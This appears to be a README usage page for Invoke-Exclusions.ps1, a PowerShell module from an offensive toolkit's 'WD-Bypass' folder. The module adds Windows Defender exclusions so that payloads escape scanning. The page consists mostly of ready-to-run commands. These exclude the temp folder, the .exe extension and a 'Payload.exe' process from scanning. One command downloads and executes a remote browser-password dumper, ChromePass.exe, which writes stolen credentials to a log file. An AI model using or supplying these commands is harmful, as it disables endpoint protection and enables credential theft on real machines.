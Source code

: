 ## Module Name
   <b><i>Invoke-Exclusions.ps1</i></b>

|Cmdlet name|Description|Privileges|Notes|
|---|---|---|---|
|Invoke-Exclusions|Add exclusions to Defender (Set-MpPreference) + Download\Execute -uri 'cmdlet'<br />Exclusion values accepted are : **'ExclusionPath, ExclusionProcess, ExclusionExtension'**|Administrator|[Screenshot](https://null)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-Exclusions.ps1" -OutFile "Invoke-Exclusions.ps1"
```

<br />

**prerequesites checks:**
```powershell
#Make sure Windows Defender service its running
[bool](Get-Service -Name "WinDefend")

#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -Match "S-1-5-32-544")

#Make sure required modules are present\loaded
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Get-MpPreference")

[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Set-MpPreference")

[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Remove-MpPreference")
```

```powershell
#Get full module information
Get-help .\Invoke-Exclusions.ps1 -Force

#Get Exclusions List (terminal)
.\Invoke-Exclusions.ps1 -action "query"

#Get Exclusions List (GUI)
.\Invoke-Exclusions.ps1 -action "query" -Gui "true"


#Set-MpPreference -ExclusionExtension "exe" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionExtension" -Exclude "exe"

#Set-MpPreference -ExclusionPath "C:\Users\pedro\AppData\Local\Temp" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionPath" -Exclude "$Env:TMP"

#Set-MpPreference -ExclusionProcess "C:\Users\pedro\AppData\Local\Temp\Payload.exe" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionProcess" -Exclude "$Env:TMP\Payload.exe"


## Add exclusion + download URI PE + execute PE
#Set-MpPreference -ExclusionPath "C:\Users\pedro\AppData\Local\Temp" -Force
.\Invoke-Exclusions.ps1 -action "exec" -type "ExclusionPath" -Exclude "$Env:TMP" -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/ChromePass.exe" -Arguments "/stext credentials.log"


#Remove-MpPreference -ExclusionProcess "$Env:TMP\Payload.exe" Force
.\Invoke-Exclusions.ps1 -action "del" -type "ExclusionProcess" -Exclude "$Env:TMP\Payload.exe"

```
